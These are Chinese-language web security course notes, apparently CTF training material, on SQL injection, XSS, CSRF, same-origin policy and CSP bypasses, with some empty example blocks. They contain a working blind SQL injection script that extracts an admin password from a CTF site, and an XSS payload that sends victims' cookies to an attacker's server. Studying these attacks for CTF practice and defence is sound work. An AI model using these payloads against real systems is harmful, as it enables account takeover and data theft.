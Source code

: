 # Web Day2

## sql注入

- sql盲注脚本

  ```python
  import requests
  import re
  import sys
  p = re.compile(r'''ID: (.+?)&nbspx:''')
  ans = ''
  for pos in range(1,33):
      l = 0
      r = 127
      cookies = {"PHPSESSID":"tf7511brt2272n9ne5i8dj6o35"}
      data = {"x": "1", "y": "1"}
      while l<r:
          mid = int((l+r)/2)
          resp = requests.post(
              "https://web.ctflearn.com/grid/controller.php?action=add_point", data=data, cookies=cookies).text
          resp = requests.get("https://web.ctflearn.com/grid/", cookies=cookies).text
          _id = p.search(resp).group(1)
          payload = _id +  ' and ord(mid((select password from user where username="admin" limit 0, 1), ' +  str(pos) + ',1))>' + str(mid)
          length = len(payload)
          resp = requests.get('''https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'''+str(length)+''':"%s";}'''%payload,cookies=cookies,allow_redirects=False).text
          resp = requests.get("http://web.ctflearn.com/grid/",cookies=cookies).text
          if _id not in resp:
              l = mid+1
          else:
              r = mid
      if l==0:
          break
      ans = ans + chr(l)
      print(ans)
  ```

## XSS攻击与防御

### Cookie

- 获取cookie的方法：浏览器端（客户端） &rarr; document.cookie；服务器端（PHP） &rarr; $_COOKIE[]
- PS：服务器端的一个响应包中只能包含一个set-cookie
- Chrome的Windows Cookie的位置：AppData\Local...
- Cookie属性 &rarr; 分号分隔的键值对
  - domain只可以设置为页面本身或其子页面、不能设置为顶级域名

### XSS漏洞

- 简介：攻击者可以在页面上插入html代码，通过javaScript得到受害者信息。分类：
  1. 反射性：用户请求的中的参数直接输出到了页面中，形成XSS
  2. 存储性（评论功能）：将用户提交的评论存储在数据库的表中 &rarr; 从数据库中取出来直接显示在评论区中
  3. *DOM性*：页面中的源码中并无XSS攻击向量
- 危害：窃取信息、XSS蠕虫、命令执行
  - 命令执行：特权域XSS &rarr; WooYun-2016-170984；沙盒绕过 &rarr; CVE-2017-12581
- 编码：
  - HTML实体编码：符号的功能性编码与显示编码分离 &rarr; DOM元素的属性值会自动解码HTML编码
  - URL编码：后端需要进行一个decode
  - 页面编码：利用gbk编码漏洞 &rarr; 转移符`\`在gbk中的低字节位，如果在前面插入一个单字节高位字节，组合成一个合法字符，可以用于逃逸`\`
- XSS漏洞注入点
- XSS注入的一些小trick：
  1. 过滤`"."`，使用with语句；过滤`';'`，用换行
  2. url协议头可以去掉，如//example.com(http)
  3. HTML实体编码中，`';'`可以去掉
  4. 可以利用拼接eval函数执行代码，例如：`"a"+eval("alert(1)")`
- *hidden元素XSS*

### CTF中的XSS题目

- 绕过（例子：HCTF2016 guestbook）

- 课上习题2：

  - 爆破md5：

  ```php
  <?php
      $i = 0;
      while(1){
          if(substr(md5($i),0,6) === '966150')
              break;
          $i = $i +1;
      }
      echo $i;
  ?>
  ```

  - Payload：

  ```html
  <script>
      with(document){
          location=`//760096541/`+escape(cookie)
      }
  </script>
  ```

  - 过滤了字符 `.` 使用 `with(){}` 指定作用域，地址转化为十进制（该十进制为指定的自己的服务器，在自己的服务器上可以得到cookie参数）

### XSS防御

- Chrome XSS Filter
- 过滤（不安全）
- 转义和编码 &rarr; 较安全的方法：编码（转成实体编码）
- HttpOnly &rarr; 后端代码中可以将Cookie添加一个给HttpOnly属性，这样就不会被前端的JS读取到

## CSRF攻击与防御

- CSRF: Cross-Site Request Forgery

### CSRF攻击

- 攻击分类：GET型、POST型、伪造请求、JSON
  - 307跳转：307跳转可以不改变请求主体，只改变请求目标。现在自己的服务器上放置一个main.html，包含产生307的flash，在统计
- CSRF绕过：
  - 空Referer &rarr; get请求、data协议、https向http跳转
  - Referer前缀绕过。比如检测前缀`https://www.qq.com`，可以自己注册域名`https://www.qq.comxx.xx`

### CSRF防御

- 方式：验证码、添加token、Referer

## 同源分析

- 源：协议 + 域名 + 端口

### 跨域方式

- Ajax：可以发送请求，但是不能带cookie

- CORS &rarr; 跨域资源共享
- windows.name可以跨域
- Jsonp &rarr; 可以实现从其他网站获取数据。数据包中的content是可控的。
  - a页面希望或许b页面的数据 &rarr; a向b发送一个jsonp请求 &rarr; 调用a页面中定义的CallBack函数

### jsonp攻击方式 &rarr; SOME攻击

SOME攻击：用户访问a.com可以实现在b.com上执行javascript

- http://b.com/index.html

```html
<form>
    <button onclick="c()">Secret Button</button>
</form>
<script>
    function c() {alert("click!");}
</script>
```

- http://b.com/jsonp.php

```php
<?php
    ?>
```



- http://a.com/some1.html
- http://a.com/some2.html

```html

```

### CSP &rarr; content-src-policy

CSP绕过：

- url跳转：在default-src为'none'的情况下，可以使用meta标签实现跳转
- 标签预加载：CSP对link标签的预加载考虑不完善
- 利用浏览器补全
- 代码重用 &rarr; Blackhat2017上有篇ppt总结了可以被用来绕过CSP的一些JS库
- iframe &rarr; 如果同源的其他页面内没有CSP限制，则可以利用没有限制的页面实现绕过CSP
- meta标签 &rarr; meta可以控制缓存（在header没有设置的情况下），有时可以用来绕过CSP nonce